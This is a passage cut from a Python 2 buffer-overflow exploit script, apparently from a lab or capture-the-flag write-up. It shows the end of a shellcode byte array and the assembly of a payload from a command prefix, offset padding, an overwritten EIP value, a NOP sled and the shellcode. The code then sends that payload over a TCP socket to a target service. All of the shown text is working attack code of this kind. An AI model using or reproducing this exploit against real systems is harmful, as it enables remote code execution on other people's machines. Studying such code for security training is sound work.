buf += b"\x96\xa5\x2f\xd0\x29\xf1\x5a\xfc\x76\x0b\x13\x73\xe7"
buf += b"\x98\x47\xc6\x65\x55\xbb\xaf\x1b\x37\x61\x8a\x91\xa4"
buf += b"\x36\xd7"

filler = "C" * (crash - (len(offset) + len(EIP) + len(buf) + len(nop)))
payload = cmd + offset + EIP + nop + buf

print "Fuzzing with %s bytes" % len(payload)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
except:
        print "\nCould not connect!"
```

